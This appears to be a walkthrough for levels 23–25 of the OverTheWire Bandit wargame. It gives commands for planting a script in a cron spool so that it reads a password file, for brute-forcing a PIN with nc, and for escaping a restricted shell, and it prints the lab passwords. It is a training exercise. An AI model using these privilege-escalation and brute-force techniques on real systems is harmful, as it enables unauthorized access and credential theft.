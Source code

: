 A program is running automatically at regular intervals from **cron**. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

```
cat /etc/cron.d/cronjob_bandit24
cat /usr/bin/cronjob_bandit24.sh
mkdir /tmp/Zoot23
chmod a+wx /tmp/Zoot23
nano /tmp/Zoot23/bandit23.sh
```

**/tmp/Zoot23/bandit23.sh**:

```
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/Zoot23/pass.txt
```

```
touch /tmp/Zoot23/pass.txt
chmod a+w /tmp/Zoot23/pass.txt
cp /tmp/Zoot23/bandit23.sh /var/spool/bandit24/foo/bandit23.sh
cat /tmp/Zoot23/pass.txt
```

password: `gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8`

# Level 24

A daemon is listening on port **30002** and will give you the password if given the previous password and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by brute-forcing.

```
for pincode in {0000..9999}; do echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $pincode; done | nc localhost 30002 | grep -v Wrong
```

password: `iCi86ttT4KSNe1armKiwbQNmB3YJP3q4`

# Level 25

The shell for user bandit26 is not **/bin/bash**. Find out what it is, how it works and how to break out of it.

```
scp -P 2220 bandit25@bandit.labs.overthewire.org:bandit26.sshkey ./
chmod 700 bandit26.sshkey
cat /etc/passwd | grep bandit26
more /usr/bin/showtext
```

Resize the window to a very small size.

```
ssh bandit26@bandit.labs.overthewire.org -p 2220 -i bandit26.sshkey
```

